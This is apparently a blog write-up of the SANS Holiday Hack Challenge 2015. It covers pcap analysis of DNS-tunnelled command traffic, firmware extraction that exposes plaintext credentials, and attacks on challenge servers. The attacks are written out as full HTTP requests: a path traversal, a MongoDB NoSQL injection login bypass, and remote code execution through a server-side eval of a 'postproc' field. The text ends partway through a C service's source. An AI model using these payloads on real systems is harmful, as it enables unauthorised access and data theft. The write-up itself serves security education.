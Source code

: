 SANS Christmas Challenge 2015
=============================
:date: 2016-01-09
:author: useless
:category: Write-up
:slug: sans-christmas-challenge-2015

.. image:: /images/sans-christmas-challenge-2015/sans_christmas_challenge_2015_logo.png
    :alt: sans_christmas_challenge_2015_logo.png
    :align: center

This year again, the SANS institute delights us with a wonderful
`Christmas Challenge <https://holidayhackchallenge.com/>`__.

We follow the `Dosis family <https://quest.holidayhackchallenge.com/>`__,
after they purchase a
`Gnome in Your Home <https://en.wikipedia.org/wiki/The_Elf_on_the_Shelf>`__
for their kids, Jessica and Joshua. These two kids, especially bright
for their age, tinker with the gnome, to find that it has a weird,
and possible illegal behaviour.

It all begins when Joshua gives us a capture file of the network
communications he recorded from the gnome...

Part 1: Dance of the Sugar Gnome Fairies: *Curious Wireless Packets*
--------------------------------------------------------------------

We're given a `PCAP file </docs/sans-christmas-challenge-2015/giyh-capture.pcap>`_ (sha256:
:code:`655541fb645af45db68a739066325e2f1138812a6893254ae7b48acd9519a330`),
and are asked to analyze it, to see what we can find.  If we open it with
Wireshark, we can see a lot of DNS traffic, with what looks
like base64-encoded data in the TXT fields.

.. image:: /images/sans-christmas-challenge-2015/giyh-capture_wireshark.png
    :alt: giyh-capture_wireshark.png
    :align: center

Using DNS requests as a communication channel with a Command and Control server
is a well known trick to bypass traffic filtering, because outbound DNS is
often authorized on a local network. So, let's extract and decode the TXT
fields. tshark is particularly adapted for this task:

.. code-block:: shell

   $ tshark -r giyh-capture.pcap -Y dns -T fields -e dns.txt | base64 -d > giyh-capture_decoded.txt

Here, we ask tshark to focus on the DNS traffic, and to output only the TXT
fields. Now, let's take a look at the decoded file:

.. code-block:: shell

    $ cat giyh-capture_decoded.txt
    NONE:NONE:NONE:NONE:NONE:NONE:NONE:EXEC:iwconfig
    EXEC:START_STATEEXEC:wlan0     IEEE 802.11abgn  ESSID:"DosisHome-Guest"  
    EXEC:          Mode:Managed  Frequency:2.412 GHz  Cell: 7A:B3:B6:5E:A4:3F   
    EXEC:          Tx-Power=20 dBm   
    EXEC:          Retry short limit:7   RTS thr:off   Fragment thr:off
    EXEC:          Encryption key:off
    EXEC:          Power Management:off
    EXEC:          
    EXEC:lo        no wireless extensions.
    EXEC:
    EXEC:eth0      no wireless extensions.
    EXEC:STOP_STATENONE:NONE:NONE:EXEC:cat /tmp/iwlistscan.txt
    EXEC:START_STATEEXEC:wlan0     Scan completed :
    EXEC:          Cell 01 - Address: 00:7F:28:35:9A:C7
    EXEC:                    Channel:1
    EXEC:                    Frequency:2.412 GHz (Channel 1)
    EXEC:                    Quality=29/70  Signal level=-81 dBm  
    EXEC:                    Encryption key:on
    EXEC:                    ESSID:"CHC"
    EXEC:                    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s
    EXEC:                              9 Mb/s; 12 Mb/s; 18 Mb/s
    EXEC:                    Bit Rates:24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s
    EXEC:                    Mode:Master
    EXEC:                    Extra:tsf=000000412e67cddf
    EXEC:                    Extra: Last beacon: 5408ms ago
    EXEC:                    IE: Unknown: 00055837335A36
    EXEC:                    IE: Unknown: 010882848B960C121824
    EXEC:                    IE: Unknown: 030101
    EXEC:                    IE: Unknown: 200100
    EXEC:                    IE: IEEE 802.11i/WPA2 Version 1
    EXEC:                        Group Cipher : CCMP
    EXEC:                        Pairwise Ciphers (1) : CCMP
    EXEC:                        Authentication Suites (1) : PSK
    EXEC:                    IE: Unknown: 2A0100
    EXEC:                    IE: Unknown: 32043048606C
    EXEC:                    IE: Unknown: DD180050F2020101040003A4000027A4000042435E0062322F00
    EXEC:                    IE: Unknown: 2D1A8C131BFFFF000000000000000000000000000000000000000000
    EXEC:                    IE: Unknown: 3D1601080800000000000000000000000000000000000000
    EXEC:                    IE: Unknown: DD0900037F01010000FF7F
    EXEC:                    IE: Unknown: DD0A00037F04010000000000
    EXEC:                    IE: Unknown: 0706555320010B1B
    [snip]
    EXEC:STOP_STATENONE:NONE:NONE:NONE:FILE:/root/Pictures/snapshot_CURRENT.jpg
    FILE:START_STATE,NAME=/root/Pictures/snapshot_CURRENT.jpgFILE:\xFF\xD8\xFF\xE0\x00\x10JFIF[raw binary]

Ok, lots of stuff! We can see that some shell commands are executed, and there
seems to be the upload of a JPEG file. The commands and results seem to be
:code:`EXEC:`, and the upload of the file and the content with
:code:`FILE:`.

We can recover the executed commands, which are :code:`iwconfig`, to see the
configuration of the different wirelass network interfaces of the gnome, and
:code:`cat /tmp/iwlistscan.txt`, which seems to give the result of the
:code:`iwlist scan` command, which scans available wireless networks.

We can recover the content of the uploaded file, with the following commands:

.. code-block:: shell

    $ binwalk giyh-capture_decoded.txt # binwalk gives us the offset at which the JPEG file starts

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    4495          0x118F          JPEG image data, JFIF standard  1.01
    $ dd bs=1 skip=4495 if=giyh-capture_decoded.txt | sed 's/FILE://g' > giyh-capture_image.jpg # we skip the beginning of the decoded file, and remove the "FILE:" string from the result

We get the following image:

.. image:: /images/sans-christmas-challenge-2015/giyh-capture_image.jpg
    :alt: giyh-capture_image.jpg
    :align: center

The flag for this part is :code:`GnomeNET-NorthAmerica`

.. image:: /images/sans-christmas-challenge-2015/first_flag_confirmation.png
    :alt: first_flag_confirmation
    :align: center

Part 2: I’ll be Gnome for Christmas: *Firmware Analysis for Fun and Profit*
---------------------------------------------------------------------------

After seeing such a strange and creepy behaviour (come on, man, you're taking
pictures of little kids' bedrooms), we are asked to analyze the firmware of
the gnome.

We recover the `firmware </docs/sans-christmas-challenge-2015/giyh-firmware-dump.bin>`_ (sha256:
:code:`bee93a79bb8ee2eba526494b4e6e56a601e1fa9589a1cccf7bfe61261ab8db20`) from
Jessica. Now, time to analyze it! The best tool I know for file analysis is binwalk:

.. code-block:: shell

    $ binwalk giyh-firmware-dump.bin 

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    0             0x0             PEM certificate
    1809          0x711           ELF 32-bit LSB shared object, ARM, version 1 (SYSV)
    168803        0x29363         Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 17376149 bytes,  4866 inodes, blocksize: 131072 bytes, created: Tue Dec  8 19:47:32 2015

Using the :code:`-e` option form binwalk, we can extract the different files,
and unsquash the file system, to get a browsable version of the file system:

.. code-block:: shell

    $ binwalk -e giyh-firmware-dump.bin 

    DECIMAL       HEXADECIMAL     DESCRIPTION
    --------------------------------------------------------------------------------
    0             0x0             PEM certificate
    1809          0x711           ELF 32-bit LSB shared object, ARM, version 1 (SYSV)
    168803        0x29363         Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 17376149 bytes,  4866 inodes, blocksize: 131072 bytes, created: Tue Dec  8 19:47:32 2015
    $ cd _giyh-firmware-dump.bin.extracted/squashfs-root
    $ ls
    bin  etc  init  lib  mnt  opt  overlay  rom  root  sbin  tmp  usr  var  www
    $ cat etc/banner
      _______                     ________        __
     |       |.-----.-----.-----.|  |  |  |.----.|  |_
     |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
     |_______||   __|_____|__|__||________||__|  |____|
              |__| W I R E L E S S   F R E E D O M
     -----------------------------------------------------
     DESIGNATED DRIVER (Bleeding Edge, r47650)
     -----------------------------------------------------
      * 2 oz. Orange Juice         Combine all juices in a
      * 2 oz. Pineapple Juice      tall glass filled with
      * 2 oz. Grapefruit Juice     ice, stir well.
      * 2 oz. Cranberry Juice
     -----------------------------------------------------

We can see that the firmware is based on OpenWRT, more specifically the
Designated Driver branch, which is the development branch. We can find
the architecture by looking at some binary files in the :code:`bin` folder:

.. code-block:: shell

    $ file bin/ash 
    bin/ash: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-armhf.so.1, stripped

The architecture of the gnome seems to be 32-bit ARM.

We can see a :code:`www` folder at the root of the file system. Let's take a
look at it:

.. code-block:: shell

    $ ls
    app.js  bin  files  node_modules  package.json  public  routes  views
    $ ls views 
    cameras.jade  error.jade  files.jade  gnomenet.jade  index.jade  layout.jade  login.jade  network.jade  settings.jade

The embedded web site seems to be a NodeJS website, using the Jade Node
Template Engine.

.. code-block:: shell

    $ head app.js 
    var express = require('express');
    var path = require('path');
    var favicon = require('serve-favicon');
    var logger = require('morgan');
    var cookieParser = require('cookie-parser');
    var bodyParser = require('body-parser');
    var routes = require('./routes/index');
    var mongo = require('mongodb');
    var monk = require('monk');
    var db = monk('gnome:KTt9C1SljNKDiobKKro926frc@localhost:27017/gnome')

We can see that the web site uses MongoDB as the database management system. We
can find the MongoDB files in the squashfs-root/opt/mongodb directory. Let's
copy them to a local install of MongoDB so that we can analyze them:

.. code-block:: shell

    $ sudo cp squashfs-root/opt/mongodb/gnome.* /var/lib/mongodb
    $ sudo chown mongodb:nogroup /var/lib/mongodb/gnome.*
    $ sudo service mongodb start
    $ mongo gnome
    MongoDB shell version: 2.4.10
    connecting to: gnome
    > show collections
    cameras
    settings
    status
    system.indexes
    users
    > db.users.find()
    { "_id" : ObjectId("56229f58809473d11033515b"), "username" : "user", "password" : "user", "user_level" : 10 }
    { "_id" : ObjectId("56229f63809473d11033515c"), "username" : "admin", "password" : "SittingOnAShelf", "user_level" : 100 }

We can see that the credentials are stored in plaintext, which is a big no-no.
The credentials to connect to the gnome web interface as an administrator are
:code:`admin/SittingOnAShelf`.

The flag for this part is :code:`SittingOnAShelf`.

.. image:: /images/sans-christmas-challenge-2015/second_flag_confirmation.png
    :alt: second_flag_confirmation
    :align: center

Part 3: Let it Gnome! Let it Gnome! Let it Gnome! *Internet-Wide Scavenger Hunt*
--------------------------------------------------------------------------------

The gnomes are apparently commanded by five SuperGnomes, which are the C&C
servers. How can we identify them? Jessica tells us that we can *sho Dan* the
password information we found. It took me a while (shame on me) to understand
that it was a clue given to us to use the famous Shodan website to identify
the SuperGnomes present on the Internet.

.. image:: /images/sans-christmas-challenge-2015/jessica_shodan.png
    :alt: jessica_shodan
    :align: center

If we look back at the traffic capture from the first part of this write-up,
we can see that the gnome is communicating with a server named
cmd.sg1.atnascorp.com.

Let's take the string "atnascorp" and search it in Shodan. You can find the
result at `this URL <https://www.shodan.io/search?query=atnascorp>`_:

.. image:: /images/sans-christmas-challenge-2015/shodan_result.png
    :alt: shodan_result
    :align: center

From the traffic analysis and the results from Shodan, we have found the five
SuperGnomes:

* SuperGnome01: 52.2.229.189, located in United States, Ashburn (VI)
* SuperGnome02: 52.34.3.80, located in United States, Portland (OR)
* SuperGnome03: 52.64.191.71, located in Australia, Sydney
* SuperGnome04: 52.192.152.132, located in Japan, Tokyo
* SuperGnome05: 54.233.105.81, located in Brazil, Sao Paulo

These targets were confirmed by the Great and Powerful Oracle, Tom Hessman.

.. image:: /images/sans-christmas-challenge-2015/third_flag_confirmation.png
    :alt: third_flag_confirmation
    :align: center

No flag for this part.

Part 4: There’s No Place Like Gnome for the Holidays: *Gnomage Pwnage*
----------------------------------------------------------------------

Now, it's time to compromise these SuperGnomes! To prove that we have control
of the SuperGnomes, we must recover the content of
:code:`/gnome/www/files/gnome.conf`.

`SuperGnome01 <http://52.2.229.189/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This SuperGnome is the easiest of them all. Indeed, you just have to connect
to the web interface with the credentials found during the firmware analysis.
You can then go to the files tab, and download the configuration file:

.. image:: /images/sans-christmas-challenge-2015/sg01_w00t.png
    :alt: sg01_w00t
    :align: center

The flag for this SuperGnome is :code:`NCC1701`
(`geeky reference <https://en.wikipedia.org/wiki/USS_Enterprise_%28NCC-1701%29>`__).

`SuperGnome02 <http://52.34.3.80/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

When we connect to SuperGnome02, we can go the files tab, but we can't download
any file.

.. image:: /images/sans-christmas-challenge-2015/sg02_download_fail.png
    :alt: sg02_download_fail.png
    :align: center

However, there is a path traversal vulnerability in the web backend
of the SuperGnome:

.. code-block:: js
    :hl_lines: 5 10

    // File www/route/index.js, line 182
    // CAMERA VIEWER
    // STUART: Note: to limit disclosure issues, this code checks to make sure the user asked for a .png file
    router.get('/cam', function(req, res, next) {
      var camera = unescape(req.query.camera);
      // check for .png
      //if (camera.indexOf('.png') == -1) // STUART: Removing this...I think this is a better solution... right?
      camera = camera + '.png'; // add .png if its not found
      console.log("Cam:" + camera);
      fs.access('./public/images/' + camera, fs.F_OK | fs.R_OK, function(e) {
        if (e) {
                res.end('File ./public/images/' + camera + ' does not exist or access denied!');
        }
      });
      fs.readFile('./public/images/' + camera, function (e, data) {
        res.end(data);
      });
    });

We can see that the :code:`camera` parameter goes through no sanitization. The
only thing done to this parameter is that it is appended with the
:code:`'.png'` string. However, on some version of the gnome, this string is
appended only if it is not previously found in the parameter. This means that
if we find a directory with :code:`.png` in its name, we can access any file.

Fortunately, we can create a directory with an arbitray name:

.. code-block:: js
    :hl_lines: 5 6 13

    // File www/route/index.js, line 127
    // SETTINGS UPLOAD
    router.post('/settings', function(req, res, next) {
      if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { // AUGGIE: settings upload allowed for admins (admins are 100, currently)
        var filen = req.body.filen;
        var dirname = '/gnome/www/public/upload/' + newdir() + '/' + filen;
        var msgs = [];
        var free = 0;
        disk.check('/', function(e, info) {
          free = info.free;
        });
        try {
          fs.mknewdir(dirname.substr(0,dirname.lastIndexOf('/')));
          msgs.push('Dir ' + dirname.substr(0,dirname.lastIndexOf('/')) + '/ created successfully!');
        } catch(e) {
          if (e.code != 'EEXIST')
            throw e;
        }
        if (free < 99999999999) { // AUGGIE: I think this is breaking uploads?  Stuart why did you set this so high?
          msgs.push('Insufficient space!  File creation error!');
        }
        res.msgs = msgs;
        next();
      } else
        res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
    });

This time, the parameter without any sanitization is :code:`filen`, which is
the name of our new settings file. Since it's not sanitized, we can put
special characters, like :code:`/`:

.. code-block:: http

    POST /settings HTTP/1.1
    Host: 52.34.3.80
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.34.3.80/settings
    Cookie: sessionid=jle7GDOGWl2hB4Upp5ry
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 26

    filen=foo.png/foo&file=bar

.. image:: /images/sans-christmas-challenge-2015/sg02_folder_creation_success.png
    :alt: sg02_folder_creation_success.png
    :align: center

Then we can use the path traversal vulnerability to recover the configuration
file:

.. code-block:: http

    GET /cam?camera=../upload/YoGjNkHo/foo.png/../../../../../../gnome/www/files/gnome.conf HTTP/1.1
    Host: 52.34.3.80
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: sessionid=jle7GDOGWl2hB4Upp5ry
    Connection: close

.. code-block:: http

    HTTP/1.1 200 OK
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Date: Sun, 20 Dec 2015 18:58:59 GMT
    Connection: close
    Content-Length: 339

    Gnome Serial Number: XKCD988
    Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
    Allow new subordinates?: YES
    Camera monitoring?: YES
    Audio monitoring?: YES
    Camera update rate: 60min
    Gnome mode: SuperGnome
    Gnome name: SG-02
    Allow file uploads?: YES
    Allowed file formats: .png
    Allowed file size: 512kb
    Files directory: /gnome/www/files/

The flag for this SuperGnome is :code:`XKCD988`
(`geeky reference <https://xkcd.com/988/>`__).

`SuperGnome03 <http://52.64.191.71/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can't even connect to this SuperGnome with our stolen credentials!

.. image:: /images/sans-christmas-challenge-2015/sg03_failed_login.png
    :alt: sg03_failed_login.png
    :align: center

That means that we have to bypass authentication somehow. The usual way is
using an SQL injection. But since the DBMS is MongoDB, we can't use traditional
SQL injection: we have to use NoSQL injection.

.. code-block:: js
    :hl_lines: 6

    // File www/routes/index.js, line 105
    // LOGIN POST
    router.post('/', function(req, res, next) {
      var db = req.db;
      var msgs = [];
      db.get('users').findOne({username: req.body.username, password: req.body.password}, function (err, user) { // STUART: Removed this in favor of below.  Really guys?
      //db.get('users').findOne({username: (req.body.username || "").toString(10), password: (req.body.password || "").toString(10)}, function (err, user) { // LOUISE: allow passwords longer than 10 chars
        if (err || !user) {
          console.log('Invalid username and password: ' + req.body.username + '/' + req.body.password);
          msgs.push('Invalid username or password!');
          res.msgs = msgs;
          res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[req.cookies.sessionid], res: res });
        } else {
          sessionid = gen_session();
          sessions[sessionid] = { username: user.username, logged_in: true, user_level: user.user_level };
          console.log("User level:" + user.user_level);
          res.cookie('sessionid', sessionid);
          res.writeHead(301,{ Location: '/' });
          res.end();
        }
      });
    });

We can see that the parameters :code:`username` and :code:`password` are not
converted to string before being used in the NoSQL query. This means that we
can send our login parameters in JSON, and they will automatically be converted
to a JavaScript object.

.. code-block:: http

    POST / HTTP/1.1
    Host: 52.64.191.71
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.64.191.71/?logout=1
    Cookie: sessionid=9VdoAi2pOEvmdCfZz0y9
    Connection: close
    Content-Type: application/json
    Content-Length: 45

    {"username": "admin","password": {"$gt": ""}}

.. code-block:: http

    HTTP/1.1 301 Moved Permanently
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Set-Cookie: sessionid=5KriPZf9AP8l8MGBVpA8; Path=/
    Location: /
    Date: Sun, 20 Dec 2015 22:44:35 GMT
    Connection: close
    Content-Length: 0

This request means that the username must be "admin", and that the associated
password must be greater than an empty string. Since such a user exists, the
application considers that we provided valid credentials, and happily opens
an authenticated web session.

We can then get the configuration file:

.. code-block:: http

    GET /files?d=gnome.conf HTTP/1.1
    Host: 52.64.191.71
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.64.191.71/files
    Cookie: sessionid=5KriPZf9AP8l8MGBVpA8
    Connection: close

.. code-block:: http

    HTTP/1.1 200 OK
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Date: Sun, 20 Dec 2015 22:44:57 GMT
    Connection: close
    Content-Length: 339

    Gnome Serial Number: THX1138
    Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
    Allow new subordinates?: YES
    Camera monitoring?: YES
    Audio monitoring?: YES
    Camera update rate: 60min
    Gnome mode: SuperGnome
    Gnome name: SG-03
    Allow file uploads?: YES
    Allowed file formats: .png
    Allowed file size: 512kb
    Files directory: /gnome/www/files/

The flag for this SuperGnome is :code:`THX1138`
(`geeky reference <https://en.wikipedia.org/wiki/THX_1138>`__).

`SuperGnome04 <http://52.192.152.132>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can connect to this SuperGnome with our credentials (whew).
However, when we try to download the gnome.conf file from the
files tab, we get an error message:

.. image:: /images/sans-christmas-challenge-2015/sg04_download_fail.png
    :alt: sg04_download_fail.png
    :align: center

Fortunately for us, this SuperGnome suffers from a remote code execution:

.. code-block:: js
    :hl_lines: 9 15

    // File www/routes/index.js, line 153
    // FILES UPLOAD
    router.post('/files', upload.single('file'), function(req, res, next) {
      if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { // NEDFORD: this should be 99 not 100 so admins can upload
        var msgs = [];
        file = req.file.buffer;
        if (req.file.mimetype === 'image/png') {
          msgs.push('Upload successful.');
          var postproc_syntax = req.body.postproc;
          console.log("File upload syntax:" + postproc_syntax);
          if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
            msgs.push('Executing post process...');
            var result;
            d.run(function() {
              result = eval('(' + postproc_syntax + ')');
            });
            // STUART: (WIP) working to improve image uploads to do some post processing.
            msgs.push('Post process result: ' + result);
          }
          msgs.push('File pending super-admin approval.');
          res.msgs = msgs;
        } else {
          msgs.push('File not one of the approved formats: .png');
          res.msgs = msgs;
        }
      } else
        res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
      next();
    });

When a file is uploaded, it's post-processed. To do so, the server
:code:`eval` s some code sent by us. Whoopsie! We can send arbitrary JavaScript
code, and it will be executed by the server. This means that we can send code
to read the configuration file:

.. code-block:: http

    POST /files HTTP/1.1
    Host: 52.192.152.132
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.5.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/\*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: http://52.192.152.132/files
    Cookie: sessionid=X7VWEHkmmlBfutfSWIKF
    Connection: close
    Content-Type: multipart/form-data; boundary=---------------------------1090026508808451371305736143
    Content-Length: 368

    -----------------------------1090026508808451371305736143
    Content-Disposition: form-data; name="postproc"

    require('fs').readFileSync('/gnome/www/files/gnome.conf', 'utf8', function (err, data) {})
    -----------------------------1090026508808451371305736143
    Content-Disposition: form-data; name="file"; filename="bar.png"
    Content-Type: image/png

    foo

    -----------------------------1090026508808451371305736143--

.. code-block:: http

    HTTP/1.1 200 OK
    X-Powered-By: GIYH::SuperGnome by AtnasCorp
    Content-Type: text/html; charset=utf-8
    Content-Length: 4208
    ETag: W/"1070-Jo7i+NGHd32e2cYWZTjmCQ"
    Date: Sat, 26 Dec 2015 23:41:46 GMT
    Connection: close

    <!DOCTYPE html><html><head><title>GIYH::ADMIN PORT V.01</title>
    [snip]
    <ul class="nav navbar-nav"><li><a href="/">Home</a></li><li><a href="/cameras">Cameras</a></li><li><a href="/files">Files</a></li><li><a href="/gnomenet">GnomeNET</a></li><li><a href="/settings">Settings</a></li><li><a href="/?logout=1">Logout</a></li></ul></div></div></nav><div class="jumbotron"><h1>Files</h1><p class="message">Upload successful.</p><p class="message">Executing post process...</p>
    <p class="message">Post process result: Gnome Serial Number: BU22_1729_2716057
    Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
    Allow new subordinates?: YES
    Camera monitoring?: YES
    Audio monitoring?: YES
    Camera update rate: 60min
    Gnome mode: SuperGnome
    Gnome name: SG-04
    Allow file uploads?: YES
    Allowed file formats: .png
    Allowed file size: 512kb
    Files directory: /gnome/www/files/
    </p><p class="message">File pending Nedfords approval.</p>[snip]

.. image:: /images/sans-christmas-challenge-2015/sg04_w00t.png
    :alt: sg04_w00t.png
    :align: center

The flag for this SuperGnome is :code:`BU22_1729_2716057`
(`geeky reference <https://en.wikipedia.org/wiki/Bender_%28Futurama%29>`__).

`SuperGnome05 <http://54.233.105.81/>`_
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

This SuperGnome was particular: indeed, the vulnerability was not in the
web interface, but in a network service run by the SuperGnome. If we
take a look at the result of a :code:`nmap` command, we can see that
we can connect to the SuperGnome on the port 4242:

.. code-block:: shell

    $ nmap 54.233.105.81     

    Starting Nmap 6.47 ( http://nmap.org ) at 2016-01-09 10:55 CET
    Nmap scan report for ec2-54-233-105-81.sa-east-1.compute.amazonaws.com (54.233.105.81)
    Host is up (0.30s latency).
    Not shown: 997 filtered ports
    PORT     STATE  SERVICE
    80/tcp   open   http
    4242/tcp open   vrml-multi-use
    5555/tcp closed freeciv

    Nmap done: 1 IP address (1 host up) scanned in 22.17 seconds

Let's connect to it using :code:`netcat`:

.. code-block:: shell

    $ nc 54.233.105.81 4242

    Welcome to the SuperGnome Server Status Center!
    Please enter one of the following options:

    1 - Analyze hard disk usage
    2 - List open TCP sockets
    3 - Check logged in users

Ok, this seems to be a service to get some informations about
the SuperGnomes. Let's see if we have a copy of the binary
in our copy of the firmware

.. code-block:: shell

   $ grep -Rn "Welcome to the SuperGnome Server Status Center" .

   Fichier binaire ./usr/bin/sgstatd correspondant

Ok, so the binary program listening on the port 4242 seems to
be :code:`/usr/bin/sgstatd`. If we look carefully, we can
find the source for such a program on SuperGnome01:

.. image:: /images/sans-christmas-challenge-2015/sg01_file_list.png
    :alt: sg01_file_list.png
    :align: center

You can download the source code `here </docs/sans-christmas-challenge-2015/sgnet.zip>`__
(sha256: :code:`2343ce7345b960144fcb39ca01c2cf406e6db9a7847eaae6361d69ef5169d4e4`).

Now let's look at the source code, and see where our input
are being processed (I cleaned it up a bit):

.. code-block:: c
    :hl_lines: 47 51

    // File sgstatd.c, line 21
    if (choice != 2) {
        write(sd, "\nWelcome to the SuperGnome Server Status Center!\n", 51);
        write(sd, "Please enter one of the following options:\n\n", 45);
        write(sd, "1 - Analyze hard disk usage\n", 28);
        write(sd, "2 - List open TCP sockets\n", 26);
        write(sd, "3 - Check logged in users\n", 27);
        fflush(stdout);

